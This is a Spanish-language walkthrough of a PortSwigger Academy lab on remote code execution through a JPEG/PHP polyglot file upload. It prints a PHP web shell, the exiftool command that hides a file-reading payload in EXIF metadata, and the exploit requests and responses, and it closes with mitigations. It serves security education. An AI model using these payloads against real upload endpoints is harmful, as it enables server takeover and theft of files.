


# PortSwigger Web Security Academy — File Upload Lab 6

## Remote code execution via polyglot web shell upload

**URL del lab:** https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

**Categoría:** File upload vulnerabilities  
**Objetivo:** subir una web shell PHP camuflada como imagen real, leer `/home/carlos/secret` y enviar el secreto en el formulario del laboratorio.

---

## 1. Descripción del laboratorio

El laboratorio se llama:

> Remote code execution via polyglot web shell upload

La aplicación tiene una funcionalidad de subida de avatar en la cuenta del usuario. A diferencia de laboratorios anteriores, aquí la aplicación **sí comprueba el contenido real del archivo** para confirmar que lo que se sube es una imagen válida.

Por eso no basta con:

- cambiar la extensión;
- cambiar el `Content-Type`;
- usar `shell.php%00.jpg`;
- subir PHP plano como si fuera imagen.

El servidor analiza el contenido y rechaza archivos que no parezcan imágenes reales.

La técnica necesaria es crear un archivo **polyglot**: un único archivo que sea válido como imagen y, al mismo tiempo, contenga código PHP ejecutable.



---

## 2. Qué es un archivo polyglot

Un archivo polyglot es un archivo que puede ser interpretado correctamente por más de un parser o intérprete.

En este caso queremos que el archivo sea dos cosas a la vez:

1. **Una imagen JPEG válida**, para pasar la validación de contenido.
2. **Un script PHP válido**, para que Apache/PHP ejecute código cuando se acceda al archivo con extensión `.php`.

La idea es esta:

```text
Para el validador de imágenes:
polyglot.php → parece JPEG real

Para Apache/PHP:
polyglot.php → termina en .php, así que se ejecuta como PHP
```

El truco está en insertar el código PHP dentro de los metadatos de una imagen válida.

---

## 3. Por qué no funciona una web shell PHP normal

Si creamos un archivo `shell.php` con este contenido:

```php
<?php system($_GET['cmd']); ?>
```

y lo intentamos subir como avatar, la aplicación lo rechaza.

El mensaje observado fue:

```text
Error: file is not a valid image
Sorry, there was an error uploading your file.
```

Esto significa que el servidor no se limita a mirar el nombre del archivo. Está abriendo el archivo y comprobando si su estructura interna corresponde a una imagen válida.

Por eso este payload plano falla:

```php
<?php system($_GET['cmd']); ?>
```

No tiene cabecera JPEG, no tiene estructura de imagen, no tiene dimensiones válidas y no puede pasar funciones típicas de validación como `getimagesize()` o `exif_imagetype()`.

---

## 4. Por qué tampoco sirve `shell.php%00.jpg`

En el laboratorio anterior, la técnica del null byte funcionaba porque el filtro miraba la extensión final `.jpg`, pero el backend acababa truncando el nombre en `.php`.

Aquí se probó una variante como:

```http
filename="shell.php%00.jpg"
```

La respuesta fue:

```http
HTTP/2 403 Forbidden

Error: file is not a valid image
Sorry, there was an error uploading your file.
```

Esto confirma el cambio clave de este laboratorio:

```text
La extensión ya no es suficiente.
El contenido debe ser una imagen real.
```

Aunque consiguiéramos engañar la parte del nombre, seguiríamos fallando porque el contenido PHP plano no parece una imagen válida.

---

## 5. Subir una imagen limpia sí funciona

Para comprobar la validación, se subió una imagen real, por ejemplo `dragonair.png`.

La aplicación respondió:

```text
The file avatars/dragonair.png has been uploaded.
```

Esto confirma que la subida funciona correctamente cuando el archivo es una imagen válida.

La conclusión es:

```text
PHP plano → rechazado
Imagen real → aceptada
Imagen real + PHP incrustado → objetivo del ataque
```

---

## 6. Qué son los metadatos EXIF

Las imágenes JPEG pueden contener metadatos internos. Estos metadatos pueden guardar información como:

- cámara usada;
- fecha;
- resolución;
- autor;
- descripción;
- comentario;
- coordenadas GPS;
- software de edición.

El campo que nos interesa es `Comment`.

Ese campo puede contener texto arbitrario. Si insertamos código PHP dentro de ese campo, la imagen seguirá siendo una imagen válida, pero el archivo contendrá una secuencia `<?php ... ?>` que PHP podrá ejecutar si Apache procesa el archivo como script.

---

## 7. Herramienta usada: `exiftool`

`exiftool` permite leer y modificar metadatos de archivos.

Ejemplo básico:

```bash
exiftool imagen.jpg
```

Eso muestra los metadatos.

Para modificar el comentario EXIF:

```bash
exiftool -Comment="texto" imagen.jpg
```

En este laboratorio lo usamos para insertar PHP dentro del comentario.

---

## 8. Creación del polyglot

El comando usado fue:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" pepe.jpg -o polyglot.php
```

Vamos a descomponerlo.

### 8.1. `exiftool`

Ejecuta la herramienta de manipulación de metadatos.

### 8.2. `-Comment="..."`

Indica que queremos escribir en el campo `Comment` de los metadatos.

El valor que insertamos es:

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

### 8.3. `<?php ... ?>`

Es la etiqueta de apertura y cierre de PHP. Todo lo que hay dentro será ejecutado si PHP interpreta el archivo.

### 8.4. `echo`

Imprime contenido en la respuesta HTTP.

### 8.5. `'START ' . file_get_contents('/home/carlos/secret') . ' END'`

En PHP, el punto `.` concatena strings.

Esta expresión construye:

```text
START <contenido_del_secreto> END
```

Se añaden `START` y `END` porque la respuesta del servidor contendrá bytes binarios de la imagen mezclados con la salida del PHP. Es mucho más fácil buscar `START` en Burp y localizar el secreto.

### 8.6. `pepe.jpg`

Es la imagen original válida que se usa como base.

### 8.7. `-o polyglot.php`

Indica el archivo de salida.

El resultado se guarda como `polyglot.php`.

Punto clave:

```text
El archivo se llama polyglot.php,
pero internamente sigue siendo un JPEG válido.
```

---

## 9. Por qué el archivo sigue siendo imagen aunque se llame `.php`

La extensión del archivo no cambia el contenido binario.

Si una imagen JPEG válida se llama `foto.jpg`, su contenido empieza por bytes típicos de JPEG, como:

```text
FF D8 FF
```

Si renombramos esa imagen a `foto.php`, los bytes internos siguen siendo JPEG.

Por eso el validador de imágenes sigue viendo una imagen real.

El nombre afecta a cómo Apache decide tratar el archivo. Si el archivo termina en `.php`, Apache puede pasarlo al intérprete PHP.

Por tanto:

```text
Validador de imágenes → mira contenido → JPEG válido
Apache/PHP → mira extensión → ejecutar como PHP
```

Ahí está el choque de interpretaciones que hace posible el ataque.

---

## 10. Verificación del polyglot con `exiftool`

Después de crear el archivo, se verificó con:

```bash
exiftool polyglot.php
```

La salida relevante fue:

```text
File Name                       : polyglot.php
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Image Width                     : 1300
Image Height                    : 1300
Comment                         : <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

Esto demuestra varias cosas a la vez.

### 10.1. `File Name : polyglot.php`

El archivo se llama `.php`.

Eso es importante porque Apache lo tratará como script PHP cuando se solicite desde `/files/avatars/polyglot.php`.

### 10.2. `File Type : JPEG`

El archivo sigue siendo un JPEG real.

Eso es lo que permite pasar la validación de contenido.

### 10.3. `MIME Type : image/jpeg`

La herramienta detecta el contenido como JPEG, no como texto ni PHP plano.

### 10.4. `Image Width` y `Image Height`

La imagen tiene dimensiones reales. No está corrupta.

### 10.5. `Comment : <?php ... ?>`

El payload PHP está dentro del campo `Comment` de los metadatos.

Este es el punto central del ataque.

---

## 11. Por qué PHP no se rompe con bytes binarios de imagen

Una duda muy importante es:

> Si el archivo contiene bytes binarios JPEG, ¿por qué PHP no falla al ejecutarlo?

La respuesta es que PHP no exige que todo el archivo sea código PHP.

PHP solo ejecuta lo que está dentro de etiquetas:

```php
<?php ... ?>
```

Todo lo que queda fuera de esas etiquetas se trata como salida literal.

Ejemplo válido:

```php
Hola
<?php echo "MUNDO"; ?>
Adiós
```

PHP ejecuta solamente:

```php
echo "MUNDO";
```

Y el resto lo emite como texto.

Con un polyglot pasa lo mismo:

```text
[bytes JPEG]
[metadatos]
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
[más bytes JPEG]
```

PHP ignora o emite los bytes que no son PHP y ejecuta el bloque que sí está dentro de `<?php ... ?>`.

Por eso la respuesta HTTP queda mezclada:

```text
bytes JPEG + START secreto END + más bytes JPEG
```

---

## 12. Subida del archivo `polyglot.php`

Una vez creado el archivo, se subió como avatar.

La aplicación aceptó el archivo:

```text
The file avatars/polyglot.php has been uploaded.
```

Esto confirma que la validación de imagen fue superada.

¿Por qué?

Porque aunque el archivo tenga extensión `.php`, internamente sigue siendo una imagen JPEG válida.

---

## 13. Acceso al archivo subido

Después de subirlo, se captura o construye la petición GET hacia el archivo:

```http
GET /files/avatars/polyglot.php HTTP/2
Host: 0acc00e704559e1480d48af300340047.web-security-academy.net
Cookie: session=0Q7MMYzMZRC13DNQzIyHrj063cbQDlIG
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Referer: https://0acc00e704559e1480d48af300340047.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
```

La respuesta fue:

```http
HTTP/2 200 OK
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 75647

ÿØÿà
...
START wJYTN5eWfPVJBKhFIkbYSnzvyDpY06Eo END
...
```

---

## 14. Interpretación de la respuesta

La respuesta empieza con:

```text
ÿØÿà
```

Eso es típico de un archivo JPEG. Indica que el archivo sigue teniendo cabecera de imagen.

Pero dentro de la respuesta aparece:

```text
START wJYTN5eWfPVJBKhFIkbYSnzvyDpY06Eo END
```

Eso confirma que PHP ejecutó el bloque incrustado en los metadatos EXIF.

El secreto extraído fue:

```text
wJYTN5eWfPVJBKhFIkbYSnzvyDpY06Eo
```



---

## 15. Por qué aparece mezclado con binario

La respuesta no es limpia porque el archivo sigue siendo una imagen.

PHP procesa el archivo completo. Todo lo que no está dentro de `<?php ... ?>` puede aparecer como salida directa.

Por eso Burp muestra una respuesta con caracteres raros, bytes de imagen y, en medio, el texto generado por el PHP.

Por eso usamos marcadores:

```php
START
END
```

Sin esos marcadores, localizar el secreto en una respuesta binaria sería más incómodo.

---

## 16. Cadena completa de explotación

La cadena completa fue:

1. Entrar con `wiener:peter`.
2. Ir a **My account**.
3. Localizar la funcionalidad de subida de avatar.
4. Probar una shell PHP normal.
5. Observar que falla porque no es una imagen válida.
6. Probar ofuscación de extensión y ver que también falla.
7. Confirmar que una imagen real sí se sube.
8. Crear un JPEG válido con PHP incrustado en EXIF usando `exiftool`.
9. Guardarlo como `polyglot.php`.
10. Subir `polyglot.php` como avatar.
11. Acceder a `/files/avatars/polyglot.php`.
12. Buscar `START` en la respuesta.
13. Extraer el secreto.
14. Enviarlo con **Submit solution**.

Resultado:


---

## 17. Diferencia con los labs anteriores

### Lab de Content-Type bypass

Ahí el servidor confiaba en:

```http
Content-Type: image/png
```

Pero no comprobaba el contenido real.

### Lab de path traversal

Ahí el problema era que el directorio de subida no ejecutaba PHP, pero se podía escapar a otro directorio.

### Lab de extension blacklist bypass

Ahí se usaba `.htaccess` para convertir otra extensión en PHP ejecutable.

### Este lab

Aquí la aplicación sí comprueba que el archivo sea una imagen real.

Por eso el bypass necesita un archivo que sea realmente una imagen y, a la vez, contenga PHP.

---

## 18. Vulnerabilidad exacta

La vulnerabilidad no es simplemente “subir un PHP”.

La vulnerabilidad real es una combinación de factores:

1. La aplicación permite subir archivos con extensión `.php` si el contenido parece imagen.
2. El servidor web ejecuta archivos `.php` dentro del directorio de uploads.
3. La validación de imagen no detecta código PHP incrustado en metadatos.
4. PHP puede ejecutar bloques `<?php ... ?>` aunque el resto del archivo sea binario.

El fallo crítico es permitir que archivos subidos por usuarios se almacenen en una ubicación donde pueden ejecutarse como código del lado servidor.

---

## 19. Por qué validar solo “es una imagen” no basta

Validar que un archivo sea una imagen puede ser útil, pero no es suficiente si luego el servidor puede ejecutarlo como PHP.

Un archivo puede ser:

```text
JPEG válido + PHP válido
```

Por tanto, una validación segura debería preguntarse también:

```text
¿Puede este archivo ejecutarse como código?
```

No basta con:

```text
¿Parece imagen?
```

---

## 20. Cómo se debería mitigar

Medidas correctas:

### 20.1. No ejecutar nada en el directorio de uploads

La carpeta donde se guardan archivos de usuario debe estar configurada como estática y no ejecutable.

Aunque alguien suba `.php`, Apache/Nginx no debería ejecutarlo.

### 20.2. Renombrar archivos en el servidor

Nunca conservar nombres proporcionados por usuarios.

Por ejemplo:

```text
usuario sube polyglot.php
servidor guarda avatar_839201.jpg
```

### 20.3. Forzar extensiones seguras

La extensión final debe decidirla el servidor, no el usuario.

### 20.4. Reprocesar imágenes

Una defensa fuerte es abrir la imagen con una librería segura y volver a generarla desde cero.

Por ejemplo:

```text
imagen subida → decodificar píxeles → crear nuevo JPEG limpio
```

Esto elimina metadatos peligrosos y contenido extra.

### 20.5. Guardar fuera del webroot

Los uploads deberían guardarse fuera del directorio servido directamente por el servidor web.

### 20.6. Servir mediante endpoint controlado

En vez de acceder directamente a:

```text
/files/avatars/archivo
```

la aplicación debería servir archivos mediante un controlador que establezca headers seguros y nunca ejecute contenido.

### 20.7. Eliminar metadatos

Si se aceptan imágenes, se deben eliminar EXIF, comentarios y chunks no necesarios.

---

## 21. Idea clave del laboratorio

La idea central es:

```text
Un archivo puede ser válido para varios intérpretes al mismo tiempo.
```

En este caso:

```text
Parser JPEG → ve una imagen correcta
PHP → ve código PHP ejecutable
```

Eso es lo que hace peligroso al archivo polyglot.

---

## 22. Resumen final

Este laboratorio demuestra que una validación de contenido no es suficiente si el servidor ejecuta archivos subidos por usuarios.

La explotación se basa en crear un archivo JPEG real que contiene código PHP en sus metadatos EXIF. La aplicación lo acepta porque parece una imagen válida. Después, como el archivo se llama `polyglot.php`, Apache lo ejecuta como PHP. El bloque PHP lee `/home/carlos/secret` y lo imprime en la respuesta, mezclado con bytes de la imagen.

El secreto obtenido fue:

```text
wJYTN5eWfPVJBKhFIkbYSnzvyDpY06Eo
```

Frase clave:

```text
El archivo era una imagen válida para el validador, pero un script ejecutable para PHP.
```

